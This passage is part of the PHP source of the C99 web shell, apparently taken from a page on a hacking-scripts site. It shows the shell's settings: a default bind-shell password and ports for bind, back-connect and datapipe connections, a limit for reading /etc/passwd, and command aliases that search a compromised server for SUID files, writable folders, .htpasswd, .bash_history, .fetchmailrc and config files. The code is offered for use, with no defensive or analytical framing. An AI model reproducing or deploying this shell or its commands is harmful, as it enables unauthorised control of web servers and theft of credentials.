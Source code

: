   int {type}:
0 - files and folders (as default),
1 - files only, 2 - folders only
  string {opentag} - open html-tag, e.g. "&lt;b&gt;" (default)
  string {closetag} - close html-tag, e.g. "&lt;/b&gt;" (default)
  bool {break} - if TRUE and found match then break
*/
$regxp_highlight  = array(
  array(basename($_SERVER["PHP_SELF"]),1,"&lt;/pre&gt;
&lt;span&gt;","&lt;/span&gt;
&lt;pre&gt;"), // example
  array("config.php",1) // example
);
$safemode_diskettes = array("a"); // This variable for disabling diskett-errors.
 // array (i=&gt;{letter} ...); string {letter} - letter of a drive
//$safemode_diskettes = range("a","z");
$hexdump_lines = 8;// lines in hex preview file
$hexdump_rows = 24;// 16, 24 or 32 bytes in one line
$nixpwdperpage = 100; // Get first N lines from /etc/passwd
$bindport_pass = "c999";  // default password for binding
$bindport_port = "31373"; // default port for binding
$bc_port = "31373"; // default port for back-connect
$datapipe_localport = "8081"; // default port for datapipe
// Command-aliases
if (!$win)
{
 $cmdaliases = array(
  array("-----------------------------------------------------------", "ls -la"),
  array("find all suid files", "find / -type f -perm -04000 -ls"),
  array("find suid files in current dir", "find . -type f -perm -04000 -ls"),
  array("find all sgid files", "find / -type f -perm -02000 -ls"),
  array("find sgid files in current dir", "find . -type f -perm -02000 -ls"),
  array("find config.inc.php files", "find / -type f -name config.inc.php"),
  array("find config* files", "find / -type f -name \"config*\""),
  array("find config* files in current dir", "find . -type f -name \"config*\""),
  array("find all writable folders and files", "find / -perm -2 -ls"),
  array("find all writable folders and files in current dir", "find . -perm -2 -ls"),
  array("find all service.pwd files", "find / -type f -name service.pwd"),
  array("find service.pwd files in current dir", "find . -type f -name service.pwd"),
  array("find all .htpasswd files", "find / -type f -name .htpasswd"),
  array("find .htpasswd files in current dir", "find . -type f -name .htpasswd"),
  array("find all .bash_history files", "find / -type f -name .bash_history"),
  array("find .bash_history files in current dir", "find . -type f -name .bash_history"),
  array("find all .fetchmailrc files", "find / -type f -name .fetchmailrc"),
  array("find .fetchmailrc files in current dir", "find . -type f -name .fetchmailrc"),
  array("list file attributes on a Linux second extended file system", "lsattr -va"),
  array("show opened ports", "netstat -an | grep -i listen")
 );
}
else
{
 $cmdaliases = array(
  array("-----------------------------------------------------------", "dir"),
  array("show opened ports", "netstat -an")
 );
}
$sess_cookie = "c999shvars"; // Cookie-variable name
$usefsbuff = TRUE; //Buffer-function
$copy_unset = FALSE; //Remove copied files from buffer after pasting
//Quick launch
$quicklaunch = array(
 array("&lt;img alt="\&quot;Home\&quot;" src="\&quot;&quot;.$surl.&quot;act=img&img=home\&quot;" width="\&quot;20\&quot;" height="\&quot;20\&quot;" border="\&quot;0\&quot;" /&gt;",$surl),

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png